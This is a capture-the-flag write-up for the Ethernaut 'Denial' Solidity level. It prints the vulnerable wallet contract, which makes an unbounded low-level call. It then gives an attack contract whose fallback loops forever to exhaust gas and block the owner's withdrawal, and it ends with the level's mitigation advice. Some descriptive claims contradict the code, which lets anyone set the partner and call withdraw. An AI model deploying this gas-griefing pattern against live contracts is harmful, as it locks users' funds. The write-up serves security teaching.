 <img src="https://ethernaut.openzeppelin.com/imgs/BigLevel20.svg">

# Target Review Contract

Given contract.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
contract Denial {

    address public partner; // withdrawal partner - pay the gas, split the withdraw
    address public constant owner = address(0xA9E);
    uint timeLastWithdrawn;
    mapping(address => uint) withdrawPartnerBalances; // keep track of partners balances

    function setWithdrawPartner(address _partner) public {
        partner = _partner;
    }

    // withdraw 1% to recipient and 1% to owner
    function withdraw() public {
        uint amountToSend = address(this).balance / 100;
        // perform a call without checking return
        // The recipient can revert, the owner will still get their share
        partner.call{value:amountToSend}("");
        payable(owner).transfer(amountToSend);
        // keep track of last withdrawal time
        timeLastWithdrawn = block.timestamp;
        withdrawPartnerBalances[partner] +=  amountToSend;
    }

    // allow deposit of funds
    receive() external payable {}

    // convenience function
    function contractBalance() public view returns (uint) {
        return address(this).balance;
    }
}
```

Challenge's message:

> This is a simple wallet that drips funds over time. You can withdraw the funds slowly by becoming a withdrawing partner. If you can deny the owner from withdrawing funds when they call withdraw() (whilst the contract still has funds, and the transaction is of 1M gas or less) you will win this level.


The "Denial" contract is a Solidity smart contract that allows for withdrawing funds by a designated partner. It is designed to split the withdrawal into two equal parts, with 1% going to the recipient (designated partner) and 1% going to the owner of the contract. The contract also keeps track of the partner's balances for transparency.

After deploying the contract, the contract owner can call the setWithdrawPartner function to set the withdrawal partner's address. This partner is the only one allowed to initiate withdrawals. Anyone can deposit funds into the contract by simply sending ETH to the contract's address. 

The designated partner can call the withdraw function to withdraw funds from the contract. The function sends 1% of the contract's balance to the partner and 1% to the contract owner. The partner's withdrawal can revert if their contract's logic or requirements are not met, but **this will not affect the owner's share**. The **contractBalance()** function can be used to view the current balance of the contract.

# Subverting

Probably, you discern the transferring process in the contract. At first, the contract sends the amount to the partner's address with the **call() method without any gas limit**. Notice the [level 9](https://github.com/wasny0ps/Ethernaut-Challenges/tree/main/Challenges/King) and [level 10](https://github.com/wasny0ps/Ethernaut-Challenges/tree/main/Challenges/Re-entracy), this vulnerable code is open to reentrancy and uncheck calls returns value vulnerabilities. And then, it uses the transfer() method for sends the amount to the owner.

At this point, we have a chance to trigger some exploits. The challenge wants us to deny the owner from withdrawing funds when they call to withdraw() function (whilst the contract still has funds, and the transaction is of 1M gas or less). So, if we consume the gas while the withdrawing function is called, we will pass the mission.

We can fix this problem with using infinite loop in the fallback. Let's look at this solution in the attack contract.

```solidity
pragma solidity ^0.8.0;

import './Denial.sol';

contract Attack{

    Denial target;

    constructor(address payable _target){
        target = Denial(_target);
        target.setWithdrawPartner(address(this));
    }

    fallback()external payable{
       while(true){

       }
    }

}
```

It is simple attack contract that gives an instance of the target contract's address and set the partner's address as it's address. That's it. Easy right?

After deploy the attack contract, we can submit the instance and hack!

See [in etherscan](https://sepolia.etherscan.io/tx/0x2e4dd5819c5d06e11197c1f502769994f066dbfd3ddcd1f0a1cdfcc85e63d15d).

Ethernaut's message:

> This level demonstrates that external calls to unknown contracts can still create denial of service attack vectors if a fixed amount of gas is not specified. If you are using a low level call to continue executing in the event an external call reverts, ensure that you specify a fixed gas stipend. For example call.gas(100000).value(). Typically one should follow the [checks-effects-interactions](https://docs.soliditylang.org/en/latest/security-considerations.html#use-the-checks-effects-interactions-pattern) pattern to avoid reentrancy attacks, there can be other circumstances (such as multiple external calls at the end of a function) where issues such as this can arise. Note: An external CALL can use at most 63/64 of the gas currently available at the time of the CALL. Thus, depending on how much gas is required to complete a transaction, a transaction of sufficiently high gas (i.e. one such that 1/64 of the gas is capable of completing the remaining opcodes in the parent call) can be used to mitigate this particular attack.
